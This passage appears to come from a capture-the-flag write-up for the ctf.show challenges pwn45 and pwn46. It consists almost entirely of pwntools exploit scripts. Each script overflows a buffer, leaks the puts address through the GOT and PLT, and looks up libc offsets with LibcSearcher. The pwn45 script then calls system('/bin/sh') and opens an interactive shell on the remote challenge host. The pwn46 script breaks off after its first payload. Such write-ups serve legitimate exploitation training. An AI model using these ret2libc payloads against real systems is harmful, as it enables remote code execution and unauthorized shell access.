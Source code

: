 ```python
from pwn import *
from LibcSearcher import *

io = remote('pwn.challenge.ctf.show',28269)
# io = process("")
elf = ELF('./pwn45')
# libc= ELF('libc.so.6')

main_add =0x0804866D
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

print("Puts_got: ", hex(puts_got))
print("Puts_plt: ", hex(puts_plt))

offset =0x6B

payload1 = b'a' * (offset + 4) + p32(puts_plt) + p32(main_add) + p32(puts_got)
io.sendlineafter(b'O.o?', payload1)
puts_addr = u32(io.recvuntil(b'\xf7')[-4:])
print("Puts_addr: ", hex(puts_addr))

libc = LibcSearcher('puts', puts_addr)

libc_base = puts_addr - libc.dump('puts')
system_add = libc_base + libc.dump('system')
bin_sh_add = libc_base + libc.dump('str_bin_sh')

# libc_base = puts_addr - libc.symbols['puts']
# system_add = libc_base + libc.symbols['system']
# bin_sh_add = libc_base + next(libc.search(b'/bin/sh'))

payload2 = b'a' * (offset + 4) + p32(system_add) + p32(0x0) + p32(bin_sh_add)
io.sendlineafter(b'', payload2)

io.interactive()
```

拿到flag

## pwn46

```python
from pwn import *
from LibcSearcher import *

io = remote('pwn.challenge.ctf.show',28253)
# io=process("./pwn")
elf = ELF('./pwn46')
# libc= ELF(elf.libc.path)

ret_add =0x00000000004004fe
pop_rdi =0x0000000000400803
main_add =0x000000000040073E
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

print("Puts_got: ",hex(puts_got))
print("Puts_plt: ",hex(puts_plt))

offset=0x70

payload1 = b'a' * (offset+8) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_add)
```